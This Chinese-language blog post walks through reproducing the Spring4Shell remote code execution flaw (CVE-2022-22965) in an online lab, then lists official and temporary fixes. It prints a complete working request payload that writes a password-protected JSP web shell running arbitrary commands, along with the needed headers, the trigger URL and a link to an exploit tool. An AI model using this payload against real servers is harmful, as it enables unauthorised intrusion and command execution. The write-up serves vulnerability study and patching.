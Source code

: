 # Spring core远程代码执行漏洞(CVE-2022-22965)复现






## 漏洞简介

springframework 是spring 里面的一个基础开源框架，主要用于javaee的企业开发。2022年3月30日，Spring框架曝出RCE 0day漏洞，攻击者通过该漏洞可远程实现对目标主机的后门文件写入和配置修改，继而通过后门文件访问获得目标主机权限。



## 漏洞成因

该漏洞是由于 Spring Core 未对传输的数据进行有效的验证。Spring MVC 框架提供参数绑定功能，允许用请求中的参数绑定控制器方法中参数对象的成员变量。这一机制使得攻击者能够通过构造恶意请求获取 AccessLogValve 对象，继而注入恶意字段值触发 pipeline 机制，从而能够在未授权的情况下远程构造恶意数据，写入任意路径下的文件，从而导致远程代码执行。



## 影响版本

Spring Framework 5.3.X < 5.3.18 

Spring Framework 5.2.X < 5.2.20



## 利用条件

- JDK 版本 >= 9

- 目标JDK9及其以上版本

- 使⽤了Spring-beans包；

- 使⽤了Spring参数绑定；

- Spring参数绑定使⽤的是⾮基本参数类型，例如⼀般的POJO即可；

  





## 漏洞复现

复现环境：这里使用vulfocus在线靶场：

### 1.连接靶场：

![image-20220429220755621](http://image.xpshuai.cn/img/image-20220429220755621.png)



![image-20220429220821256](http://image.xpshuai.cn/img/image-20220429220821256.png)





### 2.发送POC



**POC:**

```
?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=

```

访问时抓包，在"/"后插入EXP，并在请求头中插入如下字样：

```
suffix: %>
c1: Runtime
c2: <%
DNT: 1
Content-Length: 2
```



poc原理：

```
其中，header主要变更处为：
“suffix”:"%>",
“c1”:“Runtime”,
“c2”:"<%",
“DNT”:“1”,
“Content-Type”:“application/x-www-form-urlencoded”
:主体部分，链接后接两个参数pwd和cmd，pwd验证密码，cmd为实行的命令
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
:上传的文件后缀
class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar
：上传的文件名
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT/
:webapps/ROOT/knan为上传的目录，此处为访问创建目录下的文件

```







数据包内容：

![image-20220429223038550](http://image.xpshuai.cn/img/image-20220429223038550.png)









### 3.利用





若创建通过，放包后访问`[url]/tomcatwar.jsp?pwd=j&cmd=id`即可看到id命令成功执行。

![image-20220429222443020](http://image.xpshuai.cn/img/image-20220429222443020.png)



![image-20220429223116723](http://image.xpshuai.cn/img/image-20220429223116723.png)



## 利用工具

https://github.com/reznok/Spring4Shell-POC







## 修复建议

一、官方修复建议：

当前 Spring Framework 官方已发布最新版本，建议受影响的用户及时更新升级到最新版本。链接如下：

https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement

二、临时修复建议：

该临时修复建议存在一定风险，建议用户可根据业务系统特性审慎选择采用临时修复方案：

需同时按以下两个步骤进行漏洞的临时修复:

\1. 在应用中全局搜索 @InitBinder 注解，看看方法体内是否调用 dataBinder.setDisallowedFields 方法，如果发现此代码片段的引入，则在原来的黑名单中，添加 {"class.*","Class. *","*. class.*", "*.Class.*"}。(注：如果此代码片段使用较多，需要每个地方都追加)

\2. 在应用系统的项目包下新建以下全局类，并保证这个类被 Spring 加载到 (推荐在 Controller 所在的包中添加). 完成类添加后，需对项目进行重新编译打包和功能验证测试。并重新发布项目。





---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/spring-core%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E-cve-2022-22965-%E5%A4%8D%E7%8E%B0/  

